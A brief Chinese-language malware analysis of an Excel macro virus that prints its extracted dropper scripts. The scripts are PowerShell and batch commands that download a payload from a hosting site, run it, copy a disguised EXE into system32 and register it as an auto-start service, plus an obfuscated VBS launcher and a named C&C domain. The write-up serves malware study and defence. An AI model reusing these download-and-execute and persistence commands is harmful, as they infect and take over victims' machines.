 样本来源于卡饭,一款excel宏病毒<br>
使用微软offeicescan提取出宏代码。<br>
![](https://github.com/leemz2016/cplusplus/blob/master/%E7%AC%94%E8%AE%B0/img/%E6%8F%90%E5%8F%96.png)<br>
thisworkbook.vbs中创建了3个文件 C:\Users\Public\Af.vbs c:\Users\Public\Af.bat C:\Users\Public\Af2.bat<br>
做了混淆，使用vb调试器下文件写入地方下段可以看到3个文件中的内容，bat脚本中%%中内容为注释可以去掉<br>
![](https://github.com/leemz2016/cplusplus/blob/master/%E7%AC%94%E8%AE%B0/img/%E8%84%9A%E6%9C%AC.png)<br>
<br>
af2.bat:<br>
```powershell
powershell.exe -c (new-object System.Net.WebClient).DownloadFile('https://zeroratchet。000webhostapp.com/vbs.vbs','C:\Users\Public\vbs.vbs');
C:\Users\Public\vbs.vbs
```
af2.bat 从zeroratchet.000webhostapp下载vbs.vbs脚本<br>
vbs.vbs调用powershell修改注册表，与c&c域名microsoft-downloads[.]duckdns[.]org:666/admin/get.php通信，并下载证书安装<br>
<br>
af.bat:<br>
```powershell
powershell.exe -c (new-object System.Net.WebClient).DownloadFile('https://zeroratchet。000webhostapp.com/OfficeUpdate.jpg','C:\Users\Public\OfficeUpdate.exe');
timeout 5
xcopy /b/v/y C:\Users\Public\OfficeUpdate.exe C:\Windows\system32\
SC.exe Create "Microsoft_Officex" binpath= "C:\Windows\system32\OfficeUpdate.exe" type= "interact" type= "own" start= "auto" displayname= "Microsoft_Officex"
SC.exe Create "Microsoft_Office" binpath= "C:\Windows\SysWOW64\OfficeUpdate.exe" type= "interact" type= "own" start= "auto" displayname= "Microsoft_Office"
C:\Users\Public\vbs.vbs
exit
```
af.bat从zeroratchet.000webhostapp下载一个jpg文件，其实是个exe文件。将OfficeUpdate.exe拷贝到system32目录下，然后用sc注册系统服务启动<br>
<br>
af.vbs:<br>
```powershell
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run chr(34) & Chr(67) & ":\Users\Public\Af2.bat" & Chr(34), 0
Set WshShell = Nothing
WScript.Sleep(5000)
Set objShell = CreateObject("Shell.Application")
objShell.ShellExecute Chr(99) & Chr(109) & Chr(100) & Chr(46) & chr(101) & chr(120) & chr(101) & "", "/c C:\Users\Public\Af.bat", "", "runas", 0
Set x = CreateObject("wscript.shell")
```
af.vbs调用cmd执行af.bat<br>
